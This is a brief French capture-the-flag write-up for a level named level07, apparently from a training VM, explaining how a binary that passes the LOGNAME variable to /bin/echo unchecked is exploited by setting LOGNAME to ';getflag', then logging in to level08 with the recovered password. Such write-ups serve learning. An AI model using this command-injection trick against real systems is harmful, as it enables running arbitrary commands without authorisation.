 ## 1. Analyser le fichier binaire level07

    Ca affiche: LOGNAME/bin/echo %s


## 2. Exploiter la faille %s ne possedant aucunes verifications

L'executable affiche avec echo le LOGNAME, donc on injecte la commande getflag a cette variable d'env.

    export LOGNAME=";getflag"

## 3. Connexion

su level08

    Mot de passe : fiumuikeil55xe9cu4dood66h